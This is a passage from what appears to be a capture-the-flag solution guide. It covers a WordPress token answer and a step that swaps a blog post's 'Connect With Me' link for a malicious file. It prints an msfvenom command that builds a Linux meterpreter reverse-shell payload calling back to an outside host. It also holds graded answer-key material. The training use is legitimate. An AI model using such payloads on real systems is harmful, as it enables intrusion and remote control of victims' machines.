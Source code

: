 ![](./img/c34-image11.png)

![](./img/c34-image12.png)

The hexadecimal string found in the token1 file is the answer for submission for the token found in the WordPress directory.

## Question 3

_What is the token provided from the grading server for successfully replacing the Connect With Me link in the blog post?_

**Answer:** This token cannot be retrieved in the offline version of the challenge.

First, based on the information provided in the challenge instructions, we know the client to be an x64 architecture based Ubuntu/Linux system. Therefore, the reverse shell payload that we create must be for Linux and of an x64 type.

An example generation of this payload might look like the following:

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=123.45.200.201 LPORT=443 -f elf > connectwithme.elf
```
Remember to name the file appropriately so that the grading check can get the proper file.
